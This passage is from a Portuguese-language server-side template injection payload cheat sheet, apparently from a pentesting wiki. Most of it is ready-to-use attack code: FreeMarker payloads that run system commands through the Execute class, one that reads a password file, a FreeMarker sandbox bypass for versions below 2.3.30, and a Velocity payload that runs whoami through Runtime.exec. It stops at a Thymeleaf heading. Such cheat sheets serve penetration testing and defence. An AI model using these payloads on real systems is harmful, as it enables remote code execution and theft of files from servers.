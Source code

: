 Você pode testar seus payloads em [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `#{7*7} = 49 -- (legado)`
* `${7*'7'} Nada`
* `${foobar}`
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
**Freemarker - Bypass de Sandbox**

⚠️ funciona apenas em versões do Freemarker abaixo de 2.3.30
```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
**Mais informações**

* Na seção FreeMarker de [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

### Velocity (Java)
```java
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
**Mais informações**

* Na seção Velocity de [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#velocity)

### Thymeleaf (Java)
